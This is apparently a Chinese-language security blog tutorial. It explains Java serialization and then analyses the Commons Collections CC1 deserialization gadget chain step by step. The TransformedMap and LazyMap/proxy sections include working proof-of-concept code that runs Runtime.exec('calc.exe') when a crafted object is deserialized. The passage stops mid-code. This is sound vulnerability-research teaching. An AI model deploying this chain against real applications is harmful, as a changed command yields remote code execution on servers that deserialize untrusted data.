







# Java 的序列化和反序列化

## 1. Java 序列化的基本原理

### 1.1. `ObjectOutputStream` 类：

1. 继承 `OutputStream`，该类将对象转成字节数据并输出到文件中保存，可以实现对象的持久存储。

2. 创建方法 `ObjectOutputStream(OutputStream outputStream)`

3. 成员方法：

    `writeObject(Object obj)` 将指定的对象写入到对象流中，由于是 `Object` 类，因此 `String` 类或者数组也都可以写入。读出时的顺序和类型和写入时的顺序一致。

4. 使用步骤：

    1. 创建 `ObjectOutputStream` 对象，构造方法中传递字节输出流 `OutputStream`。
    2. 使用 `ObjectOutputStream` 对象中的方法 `writeObject(Object obj)`，将对象写入输出流中（输出流再写入文件中）。

    3. 释放资源（关流）。

### 1.2. 序列化和反序列化的其他条件

1. 参与序列化和反序列化的类要继承 `Serializable` 接口，JVM 会为该类自动生成一个序列化版本号。
2. `serialVersionUID`，该属性就是上一点提到的序列化版本号，该序列化版本号的作用就是用于区别类（例如同名类），版本号可以自己指定。
3. `transient`，关键字，用来指定不想参与序列化的属性。
4. `ObjectInputStream`，也就是反序列化时用的类，对标 `ObjectOutputStream`，同样存在方法 `readObject()`。
5. 被 `static` 修饰的成员变量无法被序列化，因为其属于类而不属于对象，序列化实际上是序列具体对象。

### 1.3. 例子：

1. 创建一个类，其用于被序列化：

    ```java
    import java.io.Serializable;
    
    /**
     * Created with IntelliJ IDEA.
     *
     * @author: EndlessShw
     * @user: hasee
     * @date: 2022/6/16 15:33
     * @project_name: Serialization_Unserialization
     * @description:
     * @modifiedBy:
     * @version: 1.0
     */
    
    // 参与序列化的类，其必须要继承 Serializable 接口
    public class Student implements Serializable {
        private String name;
        private int age;
    
        public Student(String name, int age) {
            this.name = name;
            this.age = age;
        }
    
        public String getName() {
            return name;
        }
    
        public void setName(String name) {
            this.name = name;
        }
    
        public int getAge() {
            return age;
        }
    
        public void setAge(int age) {
            this.age = age;
        }
    
        @Override
        public String toString() {
            return "Student{" +
                    "name='" + name + '\'' +
                    ", age=" + age +
                    '}';
        }
    }
    ```

2. 序列化的简单流程：

    ```java
    import java.io.FileNotFoundException;
    import java.io.FileOutputStream;
    import java.io.IOException;
    import java.io.ObjectOutputStream;
    
    /**
     * Created with IntelliJ IDEA.
     *
     * @author: EndlessShw
     * @user: hasee
     * @date: 2022/6/16 15:35
     * @project_name: Serialization_Unserialization
     * @description:
     * @modifiedBy:
     * @version: 1.0
     */
    
    // 用于序列化的类
    public class Serialization {
        public static void main(String[] args) throws IOException {
            // 创建具体对象
            Student student = new Student("学生1", 22);
            // 创建对象输出流
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("student.txt"));
            // 调用方法将对象序列化并写入文件中
            outputStream.writeObject(student);
            // 流的处理
            if (outputStream != null) {
                // 刷新
                outputStream.flush();
                // 流关闭
                outputStream.close();
            }
        }
    }
    ```

3. 反序列化的简单流程：

    ```java
    import java.io.*;
    
    /**
     * Created with IntelliJ IDEA.
     *
     * @author: EndlessShw
     * @user: hasee
     * @date: 2022/6/16 15:42
     * @project_name: Serialization_Unserialization
     * @description:
     * @modifiedBy:
     * @version: 1.0
     */
    
    // 执行反序列化漏洞
    public class UnSerialization {
        public static void main(String[] args) throws IOException, ClassNotFoundException {
            // 直接创建对象输入流，将序列化后的二进制文件导入
            ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("student.txt"));
            // 调用方法进行反序列化
            Object unserializedObj = objectInputStream.readObject();
            // 查看对象的信息
            System.out.println(unserializedObj);
            // 关闭流
            if (objectInputStream != null) {
                objectInputStream.close();
            }
        }
    }
    ```

    结果如下：

    

### 1.4. 序列化版本号 `serialVersionUID`

1. JVM 通过 `serialVersionUID` 来区别 Java 类。

2. 在序列化之前，如果没有指定序列化版本号，JVM 会自动给该类生成一个。

3. 但是如果在序列化后（例如叫序 A），对被序列化的类（修改前叫类 A，修改后叫类 B ）进行了一个修改并重新编译，此时会导致新生成的序列化的类（序 B）的序列化版本号不一致（JVM 自动赋值）。

4. 此时如果用修改过后的类（类 B）来反序列化之前序列化后的类（序 A）（即强转），就会抛出异常 `java.io.InvalidClassException`，因此序列化类时最好指定一个序列化的版本，或者不修改类。

5. 例如：

    ```java
    private static final Long serialVersionUID = 1L;
    ```

    或者用 alt + insert 自动让 IDEA 生成 `serialVersionUID`。

### 1.5. 序列化的一些注意事项

1. 序列化只会保存对象的属性和状态，其不会保存对象中的方法（从上面的例子可以看出，其没有保存 `setter 和 getter 以及构造方法`。
2. 父类继承序列化接口时，子类也会自动继承。
3. 当继承序列化接口的对象 A 引用其他对象 B 时，在序列化 A 时，B 也会被序列化，前提是 B 也要继承序列化接口。
4. 尽量对多次使用的类和属性不进行大改变的类进行序列化，例如数据库操作的实体类。

### 1.6 重写 `readObject()` 自定义反序列化的行为

1. 在反序列化的时候，会调用 `ObjectInputStream.readObject()` 方法。一般是调用默认的反序列化方法，但是如果被序列化的对象重写了方法：
    ```java
    private void readObject(ObjectInputStream in) throws Exception {}
    ```

    那么会执行该方法而不是默认的反序列化方法。

### 1.7 序列化漏洞成因

1. 综上，如果程序反序列化的字节流，是被序列化恶意类的字节流（重写了 `readObject()`。那么就可能产生序列化漏洞。

### 1.8 参考

1. > https://blog.csdn.net/qq_44713454/article/details/108418218
   >
   > https://blog.csdn.net/qq_37019068/article/details/120717474

## 2. 为什么要使用链？

### 2.1 设想场景

1. 假设现在后端存在一个接口，用来接收序列化后的数据，然后直接反序列化。目前能想到的攻击手段就是“随便构建一个类，实现 `serializable` 接口，在 `readObject()` 中编写命令执行方法”。

### 2.2 局限性/序列化的条件

1. 序列化的一个条件：同包且同名。
    因此如果自己构建的一个类，序列化后给后端反序列化，那么在黑盒的情况下，后端必定会报错，因为序列化后的类不相同（你也不懂后端的包名和类名）。
2. `readObject()` 方法丢失：
    假设第一点满足了，即你传入的自定义的类和后端有的类同包又同名，但是如果后端同包同名的类并没有重写 `readObject()` 方法，那么在序列化过程中，**自己重写的 `readObject()` 方法会丢失**，因此里面的恶意代码不会被执行。

### 2.3 结论

1. 因此，构造 PoC 的方向就是要解决上述的两个问题。
2. 对于第一个问题，如果传入的被序列化的类，是 JDK 原生的，或者是后端所使用的库内部的，那么就可以解决“同包同名”的问题。
3. 对于第二个问题，不论后端自定义的类“是否重写了 `readObject()` 方法”，但是其反序列化时，**必定会调用 JDK 或者依赖里面的类被序列化时**重写的 `readObject()` 方法。

## 3. 漏洞详解 - Java Common Collections 下的序列化漏洞（最基本 CC1 链）

1. Common Collections 包是对 Java 原生中的 java.util.Collections 的一个拓展。

### 3.1.  `TransformedMap` 底层原理

1. > ```java
    > /**
    >  * Factory method to create a transforming map.
    >  * <p>
    >  * If there are any elements already in the map being decorated, they
    >  * are NOT transformed.
    >  * Contrast this with {@link #transformedMap(Map, Transformer, Transformer)}.
    >  *
    >  * @param <K>  the key type
    >  * @param <V>  the value type
    >  * @param map  the map to decorate, must not be null
    >  * @param keyTransformer  the transformer to use for key conversion, null means no transformation
    >  * @param valueTransformer  the transformer to use for value conversion, null means no transformation
    >  * @return a new transformed map
    >  * @throws IllegalArgumentException if map is null
    >  * @since 4.0
    >  */
    > public static <K, V> TransformedMap<K, V> transformingMap(final Map<K, V> map,
    >         final Transformer<? super K, ? extends K> keyTransformer,
    >         final Transformer<? super V, ? extends V> valueTransformer) {
    >     return new TransformedMap<K, V>(map, keyTransformer, valueTransformer);
    > }
    > 
    > /**
    >  * Factory method to create a transforming map that will transform
    >  * existing contents of the specified map.
    >  * <p>
    >  * If there are any elements already in the map being decorated, they
    >  * will be transformed by this method.
    >  * Contrast this with {@link #transformingMap(Map, Transformer, Transformer)}.
    >  *
    >  * @param <K>  the key type
    >  * @param <V>  the value type
    >  * @param map  the map to decorate, must not be null
    >  * @param keyTransformer  the transformer to use for key conversion, null means no transformation
    >  * @param valueTransformer  the transformer to use for value conversion, null means no transformation
    >  * @return a new transformed map
    >  * @throws IllegalArgumentException if map is null
    >  * @since 4.0
    >  */
    > public static <K, V> TransformedMap<K, V> transformedMap(final Map<K, V> map,
    >         final Transformer<? super K, ? extends K> keyTransformer,
    >         final Transformer<? super V, ? extends V> valueTransformer) {
    >     final TransformedMap<K, V> decorated = new TransformedMap<K, V>(map, keyTransformer, valueTransformer);
    >     if (map.size() > 0) {
    >         final Map<K, V> transformed = decorated.transformMap(map);
    >         decorated.clear();
    >         decorated.decorated().putAll(transformed);  // avoids double transformation
    >     }
    >     return decorated;
    > }
    > ```

2. 这两个方法都是创建 `TransformedMap` 的两个静态方法。其都需要三个参数，一个 `Map`、两个 `Transformer`。

### 3.2 `Transformer` 接口的原理

1. > ```java
    > /**
    >  * Defines a functor interface implemented by classes that transform one
    >  * object into another.
    >  * <p>
    >  * A <code>Transformer</code> converts the input object to the output object.
    >  * The input object should be left unchanged.
    >  * Transformers are typically used for type conversions, or extracting data
    >  * from an object.
    >  * <p>
    >  * Standard implementations of common transformers are provided by
    >  * {@link TransformerUtils}. These include method invocation, returning a constant,
    >  * cloning and returning the string value.
    >  *
    >  * @param <I> the input type to the transformer
    >  * @param <O> the output type from the transformer
    >  *
    >  * @since 1.0
    >  * @version $Id: Transformer.java 1543278 2013-11-19 00:54:07Z ggregory $
    >  */
    > public interface Transformer<I, O> {
    > 
    >     /**
    >      * Transforms the input object (leaving it unchanged) into some output object.
    >      *
    >      * @param input  the object to be transformed, should be left unchanged
    >      * @return a transformed object
    >      * @throws ClassCastException (runtime) if the input is the wrong class
    >      * @throws IllegalArgumentException (runtime) if the input is invalid
    >      * @throws FunctorException (runtime) if the transform cannot be completed
    >      */
    >     O transform(I input);
    > 
    > }
    > ```

2. 根据源码的注释可以看出，`Transformer` 接口的作用在于将一个对象转换成另一个对象。如果继承了该接口，那么还需要实现 `transform()` 方法。

3. 根据继承关系，接下来讲：`ChainedTransformer`、`ConstantTransformer` 和 `InvokerTransformer` 三个实现类：
    

### 3.3 `InvokerTransformer` 实现类的原理

1. > ```java
    > /**
    >  * Transforms the input to result by invoking a method on the input.
    >  *
    >  * @param input  the input object to transform
    >  * @return the transformed result, null if null input
    >  */
    > @SuppressWarnings("unchecked")
    > public O transform(final Object input) {
    >     if (input == null) {
    >         return null;
    >     }
    >     try {
    >         // 这里开始调用反射机制，首先获取传入的对象（被转换的对象）的字节码
    >         final Class<?> cls = input.getClass();
    >         // 获取到类后，再根据方法名和参数类型来获取到指定的方法
    >         final Method method = cls.getMethod(iMethodName, iParamTypes);
    >         // 调用方法，同时将方法产生的结果返回（这里返回的就是转换后对象）
    >         return (O) method.invoke(input, iArgs);
    >     } catch (final NoSuchMethodException ex) {
    >         throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" +
    >                                    input.getClass() + "' does not exist");
    >     } catch (final IllegalAccessException ex) {
    >         throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" +
    >                                    input.getClass() + "' cannot be accessed");
    >     } catch (final InvocationTargetException ex) {
    >         throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" +
    >                                    input.getClass() + "' threw an exception", ex);
    >     }
    > }
    > ```
    >
    > **反射**中调用方法时涉及的方法参数，来自 `InvokerTransformer` 的构造函数或者静态构造方法。
    >
    > 
    >
    > 注意参数类型，构造 PoC 会涉及到。

### 3.4 `ConstantTransformer` 实现类的原理

1. > ```java
    > /**
    >  * Transformer method that performs validation.
    >  *
    >  * @param <I>  the input type
    >  * @param <O>  the output type
    >  * @param constantToReturn  the constant object to return each time in the factory
    >  * @return the <code>constant</code> factory.
    >  */
    > public static <I, O> Transformer<I, O> constantTransformer(final O constantToReturn) {
    >     // 通过静态方法创建，如果传入的参数为空，就创建空常量的转换类。
    >     if (constantToReturn == null) {
    >         return nullTransformer();
    >     }
    >     return new ConstantTransformer<I, O>(constantToReturn);
    > }
    > 
    > /**
    >  * Constructor that performs no validation.
    >  * Use <code>constantTransformer</code> if you want that.
    >  *
    >  * @param constantToReturn  the constant to return each time
    >  */
    > public ConstantTransformer(final O constantToReturn) {
    >     super();
    >     // 这里通过类成员来或者要转换的常量
    >     iConstant = constantToReturn;
    > }
    > 
    > /**
    >  * Transforms the input by ignoring it and returning the stored constant instead.
    >  *
    >  * @param input  the input object which is ignored
    >  * @return the stored constant
    >  */
    > public O transform(final I input) {
    >     // 在构造函数中指定并获得了要转换成的常量，这里直接 return 了。
    >     return iConstant;
    > }
    > ```

### 3.5 `ChainedTransformer` 类的实现原理

1. 首先来看源码中官方对它的介绍：

    > ```java
    > /**
    >  * Transformer implementation that chains the specified transformers together.
    >  * 该链式转换器共同转换一个对象
    >  * <p>
    >  * The input object is passed to the first transformer. The transformed result
    >  * is passed to the second transformer and so on.
    >  * 按照顺序用链式转换器内的转换器，像链条一样，一个接着一个对待转换对象进行转换
    >  * @since 3.0
    >  * @version $Id: ChainedTransformer.java 1479337 2013-05-05 15:20:59Z tn $
    >  */
    > public class ChainedTransformer<T> implements Transformer<T, T>, Serializable {
    > }
    > ```

2. 再大概看一下其构造函数：

    
    不论是构造函数，还是类内准备暂存构造时传入的参数，其都是数组或者继承自 `Collection` 的复杂数据类型。这表明该 `ChainedTransformer` 链式转换器内有多个转换器。

3. 最后再看其实现的 `transform()`

    > ```java
    > /**
    >  * Transforms the input to result via each decorated transformer
    >  *
    >  * @param object  the input object passed to the first transformer
    >  * @return the transformed result
    >  */
    > public T transform(T object) {
    >     // 按序遍历所有的转换器
    >     for (final Transformer<? super T, ? extends T> iTransformer : iTransformers) {
    >         // 依次调用所有转换器的 transform() 转换方法。
    >         object = iTransformer.transform(object);
    >     }
    >     return object;
    > }
    > ```

### 3.6 漏洞原理

1. 根据 2.3 的结论，接下来就是要解决两个问题：
    1. 谁负责调用恶意代码。
    2. 哪个对象能够在被反序列化过程中，通过调用自身的 `readObject()` 方法来告知“负责调用恶意代码的对象”调用恶意代码。（因为负责调用恶意代码的对象还需要其他人来触发，其自身无法主动调用恶意代码）

#### 3.6.1 谁负责调用恶意代码（中介的一部分）

1. 从 `InvokerTransformer` 入手，如果调用了其 `transform()` 方法，它就会通过反射，调用创建 `InvokerTransformer` 对象时传入的方法。**如果传入的方法可控，那么就可以执行我们想要执行的内容。**

2. 那问题就转换成了**“如何调用到 `InvokerTransformer` 的 `transform()` 方法？”**。回到 `TransformedMap` ，在 3.1 中提到，该对象的创建要求传入 key 和 value 的 `Transformer` 转换器，如果创建时我们传入包含恶意代码的 `InvokerTransformer`，那么在这种情况下，如果 `TransformedMap` 对象**调用了某些方法，使得其转换器的 `tramsform()` 方法被执行，那么就会间接的执行 `InvokerTransformer` 的 `transform()` ，从而执行恶意代码**。

3. 那么问题又来了，**“哪些方法会让 `TransformedMap` 调用其转换器的 `transform()` 方法？”**。
    再次回到 `TransformedMap` 的底层源码，找到调用 key/value 的转换器的方法。
    首先是最底层的三个方法：

    ```java
    /**
     * Override to transform the value when using <code>setValue</code>.
     *
     * @param value  the value to transform
     * @return the transformed value
     * @since 3.1
     */
    @Override
    protected V checkSetValue(final V value) {
        return valueTransformer.transform(value);
    }
    /**
     * Transforms a key.
     * <p>
     * The transformer itself may throw an exception if necessary.
     *
     * @param object  the object to transform
     * @return the transformed object
     */
    protected K transformKey(final K object) {
        if (keyTransformer == null) {
            return object;
        }
        return keyTransformer.transform(object);
    }
    /**
     * Transforms a value.
     * <p>
     * The transformer itself may throw an exception if necessary.
     *
     * @param object  the object to transform
     * @return the transformed object
     */
    protected V transformValue(final V object) {
        if (valueTransformer == null) {
            return object;
        }
        return valueTransformer.transform(object);
    }
    ```

    这三个方法会调用 `transform()` 方法，但是这三个方法都是 `protected` 类型，这表示 `TransformedMap` 对象不能直接调用这三个方法，因此再向上找调用这三个方法的方法。

4. 先从 `checkSetValue()` 方法入手，首先注意到它有 `@Override` 注解，说明其重写了其父类中的方法，那么从它继承或实现的父类/接口入手，找到调用 `checkSetValue()` 方法：
    ```java
    /**
     * Implementation of a map entry that checks additions via setValue.
     */
    private class MapEntry extends AbstractMapEntryDecorator<K, V> {
        
        /** The parent map */
        private final AbstractInputCheckedMapDecorator<K, V> parent;
        protected MapEntry(final Map.Entry<K, V> entry, final AbstractInputCheckedMapDecorator<K, V> parent) {
            super(entry);
            this.parent = parent;
        }
        
        @Override
        public V setValue(V value) {
            // 这里是 parent，也就是 AbstractMapEntryDecorator 调用了 checkSetValue 方法。
            value = parent.checkSetValue(value);
            return getMapEntry().setValue(value);
        }
    }
    ```

    可以看到，`AbstractInputCheckedMapDecorator`（即`TransformedMap` 的父类） 内部的一个 `MapEntry` 调用了 `setValue()` 后才会调用  `AbstractInputCheckedMapDecorator` 的 `checkSetValue()` 方法，但是 `MapEntry` 又是私有类，因此要想办法获取到它。

5. 再在 `AbstractInputCheckedMapDecorator` 中搜寻，发现：
    ```java
    /**
     * Implementation of an entry set iterator that checks additions via setValue.
     */
    // 这表明名为 EntrySetIterator 的 next 方法会得到 MapEntry
    private class EntrySetIterator extends AbstractIteratorDecorator<Map.Entry<K, V>> {
        /** The parent map */
        private final AbstractInputCheckedMapDecorator<K, V> parent;
        protected EntrySetIterator(final Iterator<Map.Entry<K, V>> iterator,
                                   final AbstractInputCheckedMapDecorator<K, V> parent) {
            super(iterator);
            this.parent = parent;
        }
        @Override
        public Map.Entry<K, V> next() {
            final Map.Entry<K, V> entry = getIterator().next();
            return new MapEntry(entry, parent);
        }
    }
    ```

    这表明名为 `EntrySetIterator` 的 next 方法会得到 `MapEntry`，但是 `EntrySetIterator` 还是私有的，再向上找。

6. 最终找到方法：
    

    获得 `EntrySetIterator` 需要 `EntrySet` ，而获得 `EntrySet` 需要 `AbstractInputCheckedMapDecorator` 的 `entrySet()` 方法，而 `TransformedMap` 实现了 `AbstractInputCheckedMapDecorator`，显然可以调用该方法。至此“如何执行命令”的问题解决。

7. 总结一下：
    **`TransformedMap.entryset().iterator().next()` 获取到 `MapEntry` ，然后调用其方法 `setValue("")` 即可。**

8. **执行命令的代码（中介的一部分）：**

    ```java
    HashMap<String, String> hashMap = new HashMap<>();
    hashMap.put("1", "随便");
    TransformedMap<String, String> transformedMap = TransformedMap.transformingMap(hashMap, null, 含有恶意代码的 InvokerTransformer);
    transformedMap.entrySet().iterator().next().setValue("123");
    ```

#### 3.6.2 如何构造恶意（代码）的 `InvokerTransformer` - （中介的另一部分）

1. 根据 Java 的 RCE，最基本的肯定是想要执行：`Runtime.getRuntime().exec()`。但是 `Runtime` 类不可被序列化，因此反序列化调用 `readObject()` 时就拿不到 `Runtime` 对象，从而无法执行恶意代码。

2. 思路：

    1. 既然无法直接拿到，那么就通过反射获取到字节码文件。
    2. 再通过字节码文件和反射依次执行 `getRuntime()` 的 `exec()` 方法。

3. 首先对于第一步，就用 `ConstantTransformer` 来实现：
    ```java
    // 注意这里创建的是类的字节码，最终相当于用 `InvokerTransformer` 的反射来调用反射，从而调用 exec()
    new ConstantTransformer(Runtime.class);
    ```

4. 第二步，要通过反射调用方法的话，就需要在创建 `InvokerTransformer(final String methodName, final Class<?>[] paramTypes, final Object[] args)` 时，指定方法名，方法参数的类型和具体参数内容。
    ```java
    // getMethod 一定要
    new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
    // 通过反射创建了反射的方法，因此还得通过反射的 invoke() 来执行
    new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
    new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
    ```
    
6. 最终，将这些转换器用 `ChainedTransformer` 进行整合，得到**最终**的恶意转换器链如下：

    ```java
    Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
            new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
    };
    Transformer transformedChain = new ChainedTransformer(transformers);
    ```


#### 3.6.3 中介的最终构造

1. 最终，将两个中介合并，得到以下内容：
    ```java
    // 构造转换器链（恶意代码以及中介的一部分）
    Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
            new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})     
    };
    Transformer transformedChain = new ChainedTransformer(transformers);
    
    // 触发转换器链内所有转换器的 transform() （中介的另一部分）
    HashMap<String, String> hashMap = new HashMap<>();
    TransformedMap<String, String> transformedMap = TransformedMap.transformingMap(hashMap, null, transformedChain);
    hashMap.put("1", "随便");
    
    // 这一步负责触发恶意代码（实际上算在 readObject() 中的一部分）
    transformedMap.entrySet().iterator().next().setValue("123");
    ```

#### 3.6.4 如何在反序列化时“告知中介”

1. 首先，就这个标题，就应该知道这部分应该有三个要点：

    1. 类能被反序列化

    2. 被反序列化时，其内部的 `readObject()` 会调用类似：
        ```java
        transformedMap.entrySet().iterator().next().setValue("123");
        ```

        的代码。
        
    3. 这个类尽量是依赖里面的或者是 JDK 原生的。

2. 寻找思路：
    既然触发点是 `setValue()` 函数，那么就先从最简单的找起：`readObject()` 中直接调用 `setValue()` 方法的类。右键 `setValue()` ，点击 `Find Usage` 。

3. 最终寻找到一个类是 `AnnotationInvocationHandler`（需要注意的是，JDK 的版本是 1.8 的低版本，在 1.8 最新的版本中，该类的 `readObject()` 中没有调用 `setValue()` 函数，从而失效）。
    

4. 分析一下，这个类的 `memberValue` 是可传入的而且是 `Map` 中的 `Map.Entry`，因此方向就是实例化这个类然后传入构造好的 `transformedMap`。

5. 由于这个类它没有被 `public` 关键字修饰，因此它不可以直接通过 `new` 实例化，因此要采用反射机制去创建它。

6. 创建过程大概如下：
    ```java
    // 触发转换器链内所有转换器的 transform()
    HashMap<String, String> hashMap = new HashMap<>();
    TransformedMap<String, String> transformedMap = TransformedMap.transformingMap(hashMap, null, transformedChain);
    // 这里为什么 key 是 "value"，下文有解释
    hashMap.put("value", "随便");
    // transformedMap.entrySet().iterator().next().setValue("123");
    
    // 通过反射，获取到 class 类对象
    Class<?> aIHClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    // 通过 class 类对象获取 class 类对象的构造函数
    Constructor<?> aIHClassDeclaredConstructor = aIHClass.getDeclaredConstructor(Class.class, Map.class);
    // 取消其访问检查（即绕过 protected 和 private 关键字修饰，直接对其变量赋值），
    aIHClassDeclaredConstructor.setAccessible(true);
    // 通过 class 类对象的构造函数实例化对象
    // 这里第一个参数要注意，下文会讲
    Object newInstance = aIHClassDeclaredConstructor.newInstance(GetMapping.class, transformedMap);
    // 对这个对象进行序列化
    // serialize(newInstance);
    ```

7. 这里有一个关键点：“触发 `setValue()` 前的 `if (menberType != null)` 这个条件。”

8. 追溯源码，大概可以知道：
    
    `memberType` 由 `memberTypes.get(name)` 获取到，这个 `name` 是 `memberValue.getKey()` 获取到的，`memberValue` 上文中提到是传入的 `Map` 中的一对键值对，**那么这里的 `name` 就是传入的 `Map` 的每一个键**。合并一下，就是 `memberType` 由 `memberTypes.get(transformedMap 的键)` 获得。但是这个 `memberTypes` 是什么？向上追溯到 `readObject()` 的开头，但还是没有头绪。这里就先打个断点，然后 debug 去看这个 `memberTypes` 是什么。
    
    可以看出，上文调用构造方法的时候传入了 SpringMVC 的 `GetMapping` 注解的 class 文件，**这里显示的是其注解中的变量名。**

9. 至此得出结论：`transformedMap` 中的键要和实例化 `AnnotationInvocationHandler` 时，构造函数的第一个参数（注解类）中的成员名字相一致。

#### 3.6.5 PoC 编写

1. PoC 最终的构造如下：
    ```java
    // 构造转换器链
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
    };
    Transformer transformedChain = new ChainedTransformer(transformers);
    
    // 触发转换器链内所有转换器的 transform()
    HashMap<String, String> hashMap = new HashMap<>();
    TransformedMap<String, String> transformedMap = TransformedMap.transformingMap(hashMap, null, transformedChain);
    // 这里的 key 要注意，和下文注解类中的成员名称一致
    hashMap.put("value", "随便");
    // transformedMap.entrySet().iterator().next().setValue("123");
    // 通过反射，获取到 class 类对象
    Class<?> aIHClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    // 通过 class 类对象获取 class 类对象的构造函数
    Constructor<?> aIHClassDeclaredConstructor = aIHClass.getDeclaredConstructor(Class.class, Map.class);
    // 取消其访问检查（即绕过 protected 和 private 关键字修饰，直接对其变量赋值），
    aIHClassDeclaredConstructor.setAccessible(true);
    // 通过 class 类对象的构造函数实例化对象
    // 这里第一个参数要注意，注解类中要有成员
    Object newInstance = aIHClassDeclaredConstructor.newInstance(Target.class, transformedMap);
    String serialize = serialize(newInstance);
    unSerialize(serialize);
    ```
    
2. 如果序列化流是通过 Base64 传输的，而不是文件：
    ```java
    // 序列化
    public String serialize(Object payload) {
        // 创建恶意类
        // 创建文件对象
        ObjectOutputStream out = null;
        try {
            // 将恶意类序列化（这里不用文件流，改用字节流并用 base64 加密
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            out = new ObjectOutputStream(byteArrayOutputStream);
            out.writeObject(payload);
            // 这里一定要用 toByteArray 将每个字节转成 string 后再编码。如果先 byteArrayOutputStream.toString() 全部转成 string 再 base64 编码，就会出现问题。
            return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        } catch (IOException e) {
            throw new RuntimeException(e);
        } finally {
            try {
                if (out != null) {
                    out.flush();
                    out.close();
                }
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
        }
    }
    public void unSerialize(String serialize) {
        // 模拟反序列化靶场
        ObjectInputStream objectInputStream = null;
        try {
            objectInputStream = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(serialize)));
            // 靶场调用了 readObject()
            objectInputStream.readObject();
        } catch (IOException | ClassNotFoundException e) {
            throw new RuntimeException(e);
        } finally {
            try {
                if (objectInputStream != null) {
                    objectInputStream.close();
                }
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
        }
    }
    ```
    
    这样就不用文件了。实际情况下这种用的应该比较多。

### 3.7 链的过程图

1. 如下：
    

## 4. yoserial 的 CC1 链（8u71 失效，65 可以）

### 4.1 链载体的更换

1. 上述链的载体是 `TransformedMap`，同样的，`LazyMap` 也会调用 `tramsform()` 方法。
2. 寻找 `transform()` 的 usage，在 `LazyMap` 中找到：
    
    分析逻辑：如果 `LazyMap` 中存在 key，就直接返回，否则进入 `if` 中，调用 `transform()`。
    因此，创建 `LazyMap` 的时候不指定 `key` ，然后等中介调用它的 `get()` 方法，从而调用 `transform()`。

### 4.2 被序列化且告知中介的类的寻找

1. 上文说到，JDK 1.8 高版本中，`AnnotationInvocationHandler` 的 `readObject()` 已经不会调用 `setValue()` 方法。但是调用 `LazyMap` 的 `get()` 方法确实太多了，不好找，那就先再从 `AnnotationInvocationHandler` 找起，看看它能否为 `LazyMap` 所用。

2. `AnnotationInvocationHandler` 中，其 `invoke()` 方法内部调用了传入的 `Map` 的 `get()` ，那么就从这里入手：

    ```java
    Object newInstance = aIHClassDeclaredConstructor.newInstance(Target.class, transformedMap);
    ```

3. 同时，注意到 `AnnotationInvocationHandler` 实际上是动态代理中的调用处理器部分，想让它的 `invoke()` 被调用，那就需要代理对象和被代理对象。

4. 由 Java 的动态代理可知，当**代理对象调用“代理对象和被代理对象共同接口的方法”**时，其会触发调用处理器的 `invoke()` 方法。那么，被序列化对象的 `readObject()` 一旦调用了“共同接口的方法”，那么就会触发 `invoke()` ，从而最终调用 `LazyMap` 中的链。因此，思路总结如下：
    

5. 注意：“要求无参”是因为 `AnnotationInvocationHandler.invoke()` 想要调用 `LazyMap.get()` 时，需要被代理对象的方法是无参的：
    
    因此需要一个无参的方法。

### 4.3 yoserial 的 CC1 链的“巧妙之处”

1. yoserial 的巧妙之处在于
    1. 其将 `LazyMap` 同时又作为了被代理的对象（此时 `LazyMap` 就是双重身份）。
    2. 同时，`AnnotationInvocationHandler.readObject()` 内部也调用了一个对象的无参方法。
    3. 上述的对象是一个 `Map`，他恰好又和 `LazpMap` 继承 `Map`。
    4. 总的来说就是**用了两次/实例化两个** `AnnotationInvocationHandler`，一个用作反序列化的对象，还有一个当作动态代理中的调用处理器。
2. 综上，yoserial 的 CC1 链的逻辑如下：
    

### 4.4 PoC 构造与结果

1. 结合上述逻辑图，PoC 构造如下：
    ```java
    // 1. 构造链
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
    };
    Transformer transformedChain = new ChainedTransformer(transformers);
    
    // 2. 构造 LazyMap（同时也相当于创建被代理类）
    HashMap<Object, Object> map = new HashMap<>();
    LazyMap lazyMap = LazyMap.lazyMap(map, transformedChain);
    
    // 3. 把 AnnotationInvocationHandler 的构造函数搞出来
    // 通过反射，获取到 class 类对象
    Class<?> aIHClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    // 通过 class 类对象获取 class 类对象的构造函数
